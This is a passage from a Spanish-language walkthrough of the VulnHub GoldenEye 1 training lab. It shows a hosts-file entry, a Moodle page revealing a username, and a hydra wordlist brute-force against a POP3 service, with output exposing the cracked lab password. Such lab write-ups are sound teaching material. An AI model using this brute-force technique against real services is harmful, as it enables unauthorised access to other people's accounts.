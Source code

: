 Tenemos información sobre otro usuario y su clave, además de un dns a agregar junto con su url.

Añadimos la entrada a /etc/hosts.

```bash
echo "10.11.12.21\tsevernaya-station.com" >> /etc/hosts
```

Validamos la web.

![moodle](/assets/img/commons/vulnhub/GoldenEye1/moodle.png){: .center-image }

Dentro encontramos el nombre de otro usuario.

![doak](/assets/img/commons/vulnhub/GoldenEye1/doak.png){: .center-image }

Usamos nuevamente `hydra` sobre `doak`{: .filepath} y encontramos la clave.

```bash
❯ hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f 10.11.12.21 -s 55007 pop3
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-18 13:07:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.11.12.21:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.11.12.21   login: doak   password: goat
```